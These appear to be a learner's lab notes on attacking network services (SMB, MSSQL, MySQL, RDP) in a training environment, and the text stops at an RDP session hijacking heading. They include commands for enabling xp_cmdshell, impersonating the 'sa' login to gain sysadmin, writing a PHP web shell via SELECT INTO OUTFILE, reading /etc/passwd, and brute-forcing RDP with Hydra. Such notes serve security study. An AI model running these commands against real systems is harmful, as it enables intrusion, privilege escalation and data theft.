 # SMB
already done previously.

In windows example with DIR

    C:\htb> dir \\192.168.220.129\Finance\

In windows example with net use

    net use n: \\192.168.220.129\Finance

We can add the password in it as well.

    net use n: \\192.168.220.129\Finance /user:plaintext Password123

Using Powershell

    Get-ChildItem \\192.168.220.129\Finance\
using new-PSDrive instead of net use 

    New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"

With password, it's getting quite complicated 

    PS C:\htb> $username = 'plaintext'
    PS C:\htb> $password = 'Password123'
    PS C:\htb> $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
    PS C:\htb> $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
    PS C:\htb> New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred

Using Linux we can use the mount command.
We create a mount directory and mount the samba share.

    MysterPedro@htb[/htb]$ sudo mkdir /mnt/Finance
    MysterPedro@htb[/htb]$ sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance

# Databases:
## MSSQL


Best use dbeaver, I think it's great to have a database GUI.
or in command line linux use : 

    sqsh -S 10.129.20.13 -U username -P Password123
    mssqlclient.py -p 1433 julio@10.129.203.7 

Windows:

    sqlcmd -S 10.129.20.13 -U username -P Password123

in MSSQL we can execute cmd command  with xp_cmdshell example:

    1> xp_cmdshell 'whoami'
    2> GO

    output
    -----------------------------
    no service\mssql$sqlexpress
    NULL
    (2 rows affected)

if it's not activated, we ca do so :

    -- To allow advanced options to be changed.  
    EXECUTE sp_configure 'show advanced options', 1
    GO

    -- To update the currently configured value for advanced options.  
    RECONFIGURE
    GO  

    -- To enable the feature.  
    EXECUTE sp_configure 'xp_cmdshell', 1
    GO  

    -- To update the currently configured value for this feature.  
    RECONFIGURE
    GO

Impersonate Existing Users with MSSQL

    1> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE' GO

    name
    -----------------------------------------------
    sa
    ben
    valentin

    (3 rows affected)

And then impersonate the user:

=> check the rights
    1> SELECT SYSTEM_USER
    2> SELECT IS_SRVROLEMEMBER('sysadmin')
    3> go

    -----------
    julio                                                                                                                    

    (1 rows affected)

    -----------
            0

    (1 rows affected)
=> action

    1> EXECUTE AS LOGIN = 'sa'
    2> SELECT SYSTEM_USER
    3> SELECT IS_SRVROLEMEMBER('sysadmin')
    4> GO

    -----------
    sa

    (1 rows affected)

    -----------
            1

    (1 rows affected)

## MYSQL

Regarding mysql we can write a shell into a web file for example:

    mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

    Query OK, 1 row affected (0.001 sec)

Sometimes it's restricted; to check whether it's doable or not:

    show variables like "secure_file_priv";

to read a file 

    mysql> select LOAD_FILE("/etc/passwd");

## RDP : remote desktop protocol

s a proprietary protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection on port 3389

it can be brute forced with Hydra

    hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

RDP Session Hijacking
